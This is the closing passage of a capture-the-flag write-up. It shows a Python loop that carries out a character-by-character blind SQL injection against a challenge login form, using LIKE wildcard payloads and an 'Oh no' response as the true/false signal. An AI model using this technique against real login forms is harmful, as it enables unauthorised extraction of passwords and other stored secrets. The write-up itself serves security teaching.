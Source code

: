 ```python
  if i == 37: # Escape '%' character
    payload = basePayload + known + "\\" + chr(i) + "%'-- ";
  else:
    payload = basePayload + known + chr(i) + "%'-- ";
  # print payload

  response = requests.post(url, data = {"pass" : payload})
  content = response.text

  if len(re.findall('Oh no', content)) > 0: # Check if oh no... exists (Query = True)
    known += chr(i)
    print known
    i = 32 # Reset for next character
  i+=1
print known
```

## Challenge Solved!
---
*Writeup by Sam Beresford & Emilie Bjerg*